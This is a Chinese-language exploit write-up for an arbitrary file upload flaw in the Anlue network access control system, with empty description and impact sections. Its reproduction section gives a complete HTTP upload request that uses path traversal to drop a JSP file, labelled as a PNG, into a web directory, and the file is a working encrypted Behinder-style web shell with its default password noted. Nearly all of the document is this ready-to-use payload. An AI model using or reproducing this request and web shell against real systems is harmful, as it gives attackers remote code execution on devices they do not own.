 安略网络准入控制系统 任意文件上传漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

![1.png](./.resource/安略网络准入控制系统任意文件上传漏洞/media/rId24.png){width="5.833333333333333in"
height="3.357933070866142in"}

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    HOST: www.0-sec.org
    ... ...
    
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
    Content-Type: image/png
    
    <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
    
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1
    Content-Disposition: form-data; name="uploadpath"
    
    ../webapps/notifymsg/devreport/
    -----------------------------570xxxxxxxxx6025274xxxxxxxx1--

![2.png](./.resource/安略网络准入控制系统任意文件上传漏洞/media/rId25.png){width="5.833333333333333in"
height="1.9321555118110236in"}

![3.png](./.resource/安略网络准入控制系统任意文件上传漏洞/media/rId26.png){width="5.833333333333333in"
height="3.0186636045494315in"}

参考链接
--------

> https://my.oschina.net/u/4391448/blog/4562455
>
> https://blog.csdn.net/God\_XiangYu/article/details/108555525
